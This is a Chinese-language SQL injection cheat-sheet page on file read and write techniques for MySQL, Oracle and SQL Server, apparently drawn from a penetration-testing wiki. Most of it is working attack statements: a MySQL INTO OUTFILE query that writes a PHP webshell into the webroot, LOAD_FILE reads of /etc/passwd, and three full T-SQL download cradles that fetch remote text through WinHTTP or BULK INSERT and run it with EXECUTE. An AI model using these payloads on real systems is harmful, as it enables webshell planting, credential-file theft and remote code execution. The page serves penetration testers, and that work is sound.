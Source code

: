 ###  读写文件 {docsify-ignore-all}

读取和写入文件有助于数据收集和数据泄露。许多方法包括写入webroot，这可以执行webshell，或允许数据通过端口80/443被泄露。



#### MySQL


`*`需要特权用户

| 描述   |      语句     |  
|----------|:-------------:|
| 转储到文件  |      	SELECT * FROM mytable INTO dumpfile '/tmp/somefile'     |  
| 写入 PHP Shell 到文件  |      SELECT 'system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php'     |  
| 读文件  |      	SELECT LOAD_FILE('/etc/passwd')     |  
| 读取混淆的文件  |      SELECT LOAD_FILE(0x633A5C626F6F742E696E69)<br />reads c:\boot.ini     |  
| 文件权限   |      SELECT file\_priv FROM mysql.user WHERE user = 'netspi'<br />SELECT grantee, is\_grantable FROM information\_schema.user\_privileges WHERE privilege_type = 'file' AND grantee like '%netspi%'     |  


#### Oracle

有时可以使用[UTL_FILE](http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql)。检查以下是否为非null

```code
SELECT value FROM v$parameter2 WHERE name = 'utl_file_dir';
```

如果安装了[Java](http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql)（Oracle Express中不可用），可用于读取和写入文件。

#### SQL Server

`*`需要特权用户


| 描述   |      语句     |  
|----------|:-------------:|
| 在服务器中下载Cradle bulk - TSQL   |      \-\- Bulk Insert - Download Cradle Example<br />\-\- Setup variables Declare @cmd varchar(8000)<br />\-\- Create temp table<br />CREATE TABLE #file (content nvarchar(4000));<br />\-\- Read file into temp table - web server must support propfind<br /><br />BULK INSERT #file FROM '\\sharepoint.acme.com@SSL\Path\to\file.txt';<br />\-\- Select contents of file<br /><br />SELECT @cmd = content FROM #file<br />\-\- Display command<br /><br />SELECT @cmd<br />\-\- Run command<br /><br />EXECUTE(@cmd)<br />\-\- Drop the temp table<br /><br />DROP TABLE #file     |  
| 下载Cradle OAP 1 - SQL   |      <br />\-\- OLE Automation Procedure - Download Cradle Example<br />\-\- Does not require a table, but can't handle larger payloads<br /><br />\-\- Note: This also works with unc paths \\\\ip\file.txt<br />\-\- Note: This also works with webdav paths \\ip@80\file.txt However, the target web server needs to support propfind.<br /><br />\-\- Setup Variables<br />DECLARE @url varchar(300)<br />DECLARE @WinHTTP int<br />DECLARE @handle int<br />DECLARE @Command varchar(8000<br /><br />\-\- Set target url containting TSQL<br />SET @url = 'http://127.0.0.1/mycmd.txt'<br /><br />\-\- Setup namespace<br />EXEC @handle=sp\_OACreate 'WinHttp.WinHttpRequest.5.1',@WinHTTP OUT<br /><br />\-\- Call the Open method to setup the HTTP request<br />EXEC @handle=sp\_OAMethod @WinHTTP, 'Open',NULL,'GET',@url,'false'<br /><br />\-\- Call the Send method to send the HTTP GET request<br />EXEC @handle=sp\_OAMethod @WinHTTP,'Send'<br /><br />\-\- Capture the HTTP response content<br />EXEC @handle=sp_OAGetProperty @WinHTTP,'ResponseText', @Command out<br /><br />\-\- Destroy the object<br />EXEC @handle=sp\_OADestroy @WinHTTP<br /><br />\-\- Display command<br />SELECT @Command<br /><br />\-\- Run command<br />EXECUTE (@Command)     |  
| 下载Cradle OAP 2 - TSQL  |      <br />\-\- OLE Automation Procedure - Download Cradle Example - Option 2<br />\-\- Can handle larger payloads, but requires a table<br /><br />\-\- Note: This also works with unc paths \\ip\file.txt<br />\-\- Note: This also works with webdav paths \\ip@80\file.txt However, the target web server needs to support propfind.<br /><br />\-\- Setup Variables<br />DECLARE @url varchar(300)<br />DECLARE @WinHTTP int<br />DECLARE @Handle int<br />DECLARE @Command varchar(8000)<br /><br />\-\- Set target url containting TSQL<br />SET @url = 'http://127.0.0.1/mycmd.txt'<br /><br />\-\- Create temp table to store downloaded string<br />CREATE TABLE #text(html text NULL)<br /><br />\-\- Setup namespace<br />EXEC @Handle=sp_OACreate 'WinHttp.WinHttpRequest.5.1',@WinHTTP OUT<br /><br />\-\- Call open method to configure HTTP request<br />EXEC @Handle=sp_OAMethod @WinHTTP, 'Open',NULL,'GET',@url,'false'<br /><br />\-\- Call Send method to send the HTTP request<br />EXEC @Handle=sp_OAMethod @WinHTTP,'Send'<br /><br />\-\- Capture the HTTP response content<br />INSERT #text(html)<br />EXEC @Handle=sp_OAGetProperty @WinHTTP,'ResponseText'<br /><br />\-\- Destroy the object<br />EXEC @Handle=sp_OADestroy @WinHTTP<br /><br />\-\- Display the commad<br />SELECT @Command = html from #text<br />SELECT @Command<br /><br />\-\- Run the command<br />EXECUTE (@Command)<br /><br />\-\- Remove temp table<br />DROP TABLE #text     |  
| 读取文件 - TSQL |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenDataSourceTxt.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenDataSourceTxt.sql)<br /> [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_BulkInsert.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_BulkInsert.sql)<br /> [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenDataSourceXlsx](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenDataSourceXlsx)<br />[https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenRowSetBulk.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenRowSetBulk.sql)<br />[https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenRowSetTxt.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenRowSetTxt.sql)<br /> [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenRowSetXlsx.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenRowSetXlsx.sql)   |  
| 写文件 - TSQL   |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/writefile_bulkinsert.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/writefile_bulkinsert.sql)<br />[https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/writefile_OpenRowSetTxt.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/writefile_OpenRowSetTxt.sql)     |  





